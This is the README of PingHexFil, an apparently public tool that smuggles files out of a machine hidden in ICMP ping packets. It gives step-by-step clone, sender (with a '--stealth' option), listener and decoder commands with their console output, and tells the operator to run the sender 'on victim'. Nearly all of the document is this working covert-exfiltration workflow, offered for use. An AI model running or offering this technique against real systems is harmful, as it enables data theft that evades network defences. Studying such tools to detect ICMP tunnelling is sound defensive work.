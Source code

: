 # PingHexFil
Exfiltration of small files using ICMP
## Data Exfiltration using ICMP
Pass a file name, destination IP address, and "--stealth" (optional), to the application. The application will chunk the file into 60K sizes and send each "chunk" as the data payload of the ICMP request to the destination IP address. Ensure that you are capturing ICMP packets at the destination before sending. You can do this using Wireshark.
## Usage
The following is done with the example file, `examples/example1.txt`
## Installation
Ensure that you have Python-Scapy installe don your system. This application is written in Python and is OS independent.
```
root@demon:/tmp# git clone https://github.com/weaknetlabs/pinghexfil
Cloning into 'pinghexfil'...
remote: Enumerating objects: 83, done.
remote: Counting objects: 100% (83/83), done.
remote: Compressing objects: 100% (66/66), done.
remote: Total 83 (delta 38), reused 29 (delta 9), pack-reused 0
Unpacking objects: 100% (83/83), done.
root@demon:/tmp# cd pinghexfil/
```
### Step 1: Send the Bytes via ICMP
Start `PingHexFil` 
```
root@demon:/tmp/pinghexfil# ./pinghexfil.py 127.0.0.1 examples/example1.txt --stealth
[+] Opening file: examples/example1.txt
[+] The file examples/example1.txt is 168517 bytes.
[+] This will require: 5 packets to transmit.
[+] Start the listener with count of 5, hit ENTER when ready ... 
```
### Step 2: Start the Listener
```
root@demon:/tmp/pinghexfil# ./recvdata.py outputfile.txt 127.0.0.1 5
[+] Waiting for data from: 127.0.0.1
[+] Writing to file: outputfile.txt
[+] Packet count: 5
[+] Begin exfiltration script on victim now ...
```
### Step 3: Start the File Transfer
Hit ENTER in the PingHexFil.py window to begin the file transfer via ICMP:
```
[+] 60000 bytes sent via ICMP.
[+] 60000 bytes sent via ICMP.
[+] 60000 bytes sent via ICMP.
[+] 60000 bytes sent via ICMP.
[+] 60000 bytes sent via ICMP.
[+] File exfiltration complete.
[+] 5 ICMP packets sent.
root@demon:/tmp/pinghexfil# 
```
### Step 4: Decode the File
Ensure that you have the file, by checking the handler screen, you should now see this:
```
[+] Transfer complete. File outputfile.txt written.
root@demon:/tmp/pinghexfil# 
```
Next we need to decode the output file, `outputfile.txt` with the `file-decoder.py` application. 
```
root@demon:/tmp/pinghexfil# ./file-decoder.py outputfile.txt 
[+] Opening file: outputfile.txt
This is a test file.
This is a test file.
... SNIPPED ...
This is a test file.
This is a test file.
```
The process is now completed.
